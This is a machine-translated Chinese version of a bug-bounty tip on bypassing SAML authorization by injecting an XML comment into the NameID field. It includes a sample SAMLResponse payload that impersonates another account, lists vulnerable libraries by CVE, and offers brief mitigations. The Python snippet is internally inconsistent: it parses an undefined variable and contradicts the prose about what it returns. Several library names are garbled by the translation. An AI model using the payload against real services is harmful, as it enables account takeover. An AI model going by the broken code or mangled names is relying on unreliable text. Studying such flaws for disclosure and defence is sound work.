 # 赏金提示:如何在 SAML 中绕过授权！

> 原文：<https://infosecwriteups.com/bounty-tip-how-to-bypass-authorization-in-saml-f7577a6541c4?source=collection_archive---------1----------------------->

安全声明标记语言(SAML)是一种基于 XML 的开放标准，用于在流程各方之间交换身份验证和授权数据。漏洞受各种 SSO 提供者和多个使用 SAML SSO(单点登录)的库的决策的影响。

![](img/20fc3ba1a7290a411c44ecce8fbbc596.png)

(安全断言标记语言)SAML

> 使用 SAML 协议，用户只需一个用户名和密码就可以访问许多云应用程序。单点登录(SSO)是一种常见的技术，它允许您通过“第三方”作为第三方 web 应用程序登录到 web 应用程序。在这个实现中，存在一个错误，它允许攻击者在用户名字段中放置注释，唯一的条件是存在一个有效的用户名。

![](img/8b43fce117f211bc964c96d74a2e14d1.png)

问题在于 XML 标记中的注释处理方法。当您在用户名字段中放置注释代码时，会出现换行符。在处理用户名时，预处理器“切断”注释字段后的值，并且在检查时不考虑该值:

```
import xml.etree.ElementTree as et
doc = "<NameID>test<!-- comment -->user</NameID>"
data = et.fromstring(payload)
return data.text # returns 'testuser'
```

*   预期值是“testuser”，但在“break”之后，将只返回“test”的值。
*   例如，在 SP 处理过程中，拥有 user@user.com.evil.com 账户**权限的用户可以更改 SAML，将 NameID 替换为 user@user.com**的**账户:**

```
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!---->.evil.com</NameID>
        </Subject>
    </Assertion>
    <Signature>
        <SignedInfo>
            <CanonicalizationMethod Algorithm="xml-c14n11"/>
            <Reference URI="#_id1234"/>
        </SignedInfo>
        <SignatureValue>
            some base64 data that represents the signature of the assertion
        </SignatureValue>
    </Signature>
</SAMLResponse>
```

**以下解决方案易受此攻击:**

*   OneLogin-python-SAML-CVE-2017–11427
*   OneLogin-ruby-SAML-CVE-2017–11428
*   聪明-Sam L2-js-CVE-2017–11429
*   omni auth-SAML-CVE-2017–11430
*   CVE 希博勒斯-2018–0489
*   双网络网关-CVE-2018–7340

值得注意的是，该攻击对受双因素认证保护的账户不起作用(根据谷歌的统计，这包括在约 10%的用户中)。

*要防止此类攻击，需要更新使用的库，禁用重要网络中用户账号的公开注册，或者放弃不跳过评论的规范化算法。*

#快乐狩猎#错误提示